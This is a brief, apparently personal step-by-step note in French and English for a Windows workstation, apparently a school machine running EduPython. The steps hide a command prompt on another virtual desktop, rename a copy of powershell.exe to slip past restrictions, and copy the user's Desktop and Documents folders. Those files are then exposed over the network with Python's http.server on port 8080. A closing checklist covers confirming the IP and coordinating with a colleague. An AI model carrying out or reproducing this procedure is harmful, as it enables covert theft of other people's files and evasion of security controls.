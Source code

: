 1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)

Windows + R : cmd

1.1- Copie du powershell
```powershell=
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe
```

2- Find python (A ne pas faire en réel)
```powershell=
Get-ChildItem -Path C:\ -Filter "python" -Recurse -File 2>$null
```

2.1- Get into the directory
```powershell=
cd ../../../EduPython/App
```

2.2- Copy Info from Desktop 
```powershell=
copy %USERPROFILE%\Desktop .

copy %USERPROFILE%\Documents .
```

3- Execute python server
```powershell=
.\python.exe -m http.server 8080 (prendre photo)
```

4- Get the IP from the station
```powershell=
ipconfig (envoyer message check)
```

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok
